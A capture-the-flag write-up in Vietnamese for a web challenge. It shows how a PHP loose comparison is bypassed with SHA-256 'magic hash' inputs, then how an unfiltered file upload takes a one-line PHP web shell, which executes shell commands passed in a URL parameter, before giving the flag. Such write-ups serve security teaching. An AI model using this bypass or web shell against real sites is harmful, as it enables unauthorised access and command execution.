

<h1 href="https://battle.cookiearena.org/challenges/web/magic-login">Magic Login</h1>

```php
if(isset($_POST['submit'])){ 
    $usr = mysql_real_escape_string($_POST['username']); 
    $pas = hash('sha256', mysql_real_escape_string($_POST['password'])); 
    
    if($pas == "0"){ 
        $_SESSION['logged'] = TRUE; 
        header("Location: upload.php"); // Modify to go to the page you would like 
        exit; 
    }else{ 
        header("Location: login_page.php"); 
        exit; 
    } 
}else{    //If the form button wasn't submitted go to the index page, or login page 
    header("Location: login_page.php");     
    exit; 
}
```
Cả 2 đầu vào sử dụng phương thức <b>mysql_real_escape_string</b> để filter các ký tự đặc biệt, nhưng thực ra chẳng liên quan gì tới SQLI.
Mà lỗi nằm ở 
``` php
if($pas == "0")
```
Đây là lỗi <b>php juggling</b> khi php cố gắng ép kiểu dữ liệu.

Nếu như <b>$pas</b> sau khi được sha256 có dạng <b>0exxxxxxx....</b> thì ký tự đầu tiên của <b>$pas</b> sẽ được đem so sánh với <b>"0"</b>
=>ByPass

Tôi đã tìm được đầu vào thỏa mãn:
<table>
    <tr>
        <td>Hash</td>
        <td>Number / String</td>
        <td>Magic Hash</td>
    </tr>
    <tr>
        <td>SHA-256</td>
        <td>34250003024812</td>
        <td>0e46289032038065916139621039085883773413820991920706299695051332</td>
    </tr>
    <tr>
        <td>SHA-256</td>
        <td>TyNOQHUS</td>
        <td>0e66298694359207596086558843543959518835691168370379069085300385</td>
    </tr>
</table>

<h3>Sau khi vào được trang /upload.php</h3>

```php
if(isset($_FILES['fileData'])){
    if($_FILES['fileData']['size'] > 1048576){
        $errors='File size must be excately 1 MB';
    }

    if(empty($errors)==true){
    $uploadedPath = "uploads/".rand().".".explode(".",$_FILES['fileData']['name'])[1];
    move_uploaded_file($_FILES['fileData']['tmp_name'],$uploadedPath);
    echo "File uploaded successfully\n";
    echo '<p><a href='. $uploadedPath .' target="_blank">File</a></p>';
    }else{
        echo $errors;
    }
}
```
Nhận thấy file upload lên không được filter extension, upload file php với payload sau:
```php
<?php system($_GET['cmd'])>;?>
```


```
FLAG: CHH{PHP_m4g1c_tr1ck_0lD_but_g0lD_fdc8987c7c633ce8f9f5f2ae4599a9c8}
```